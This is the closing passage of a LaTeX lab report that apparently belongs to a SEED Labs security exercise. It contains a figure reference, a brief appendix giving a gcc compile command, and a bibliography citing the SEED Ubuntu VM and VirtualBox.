    
\includegraphics[width=1\textwidth]{tcp-video-after.png}
\end{figure}



\newpage

\section{Appendix}

\begin{enumerate}
    \item This report is written in \LaTeX{} and the code is written in C.
    \item \bsq{gcc filename.c -lcrypto} assumes that the code is written in a file called \bsq{filename.c}.
\end{enumerate}

\begin{thebibliography}{9}

    \bibitem{SEEDLabVM}
    SEED Labs
    \textit{SEED Ubuntu16.04 VM (32-bit)}.
    Syracuse University: Wenliang Du, 2020,

    \href{https://seedsecuritylabs.org/index.html}{https://seedsecuritylabs.org/index.html}

    \bibitem{VirtualBox}
    VirtualBox
    \textit{Download VirtualBox (Old Builds): VirtualBox 6.0}.
    ORACLE, 2020,

    \href{https://www.virtualbox.org}{https://www.virtualbox.org}

\end{thebibliography}

\end{document}